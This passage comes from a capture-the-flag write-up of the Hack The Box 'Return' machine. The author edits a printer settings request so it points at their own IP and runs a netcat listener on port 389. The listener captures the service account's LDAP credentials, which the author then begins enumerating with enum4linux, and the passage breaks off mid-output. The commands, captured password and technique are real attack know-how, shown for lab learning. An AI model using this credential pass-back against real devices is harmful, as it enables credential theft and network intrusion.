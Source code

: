 By hitting the Update (submit) button I could inspect the POST request which is send.

![Image](/assets/img/WriteUp/HTB/Return/HTB-Return-3.png){: width="700" height="400" }

In the request I can see the hostname or IP address is send to the server. By wondering, what will happen if I change this to my IP address and start a listener on that port which is stated in the webpage?
I start within my terminal a netcat listener on port 389.


```bash
┌──(eMVee@kali)-[~]
└─$ sudo nc -lvp 389     
listening on [any] 389 ...
```

While the listener is running in the background I change the hostname to my IP address and send the POST request to the server.

```bash
┌──(eMVee@kali)-[~]
└─$ sudo nc -lvp 389       
listening on [any] 389 ...
10.129.138.232: inverse host lookup failed: Unknown host
connect to [10.10.14.26] from (UNKNOWN) [10.129.138.232] 50928
0*`%return\svc-printer�
                       1edFg43012!!
```
Within the Netcat listener a username and password is shown to me.
* svc-printer
* 1edFg43012!!

Probably I can do something else with this information. Let's check what I can find with enum4linux and the username svc-printer.

```
┌──(eMVee@kali)-[~]
└─$ enum4linux -k svc-printer $ip
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Fri Feb 11 11:21:27 2022

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 10.129.138.232
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. svc-printer


 ====================================================== 
```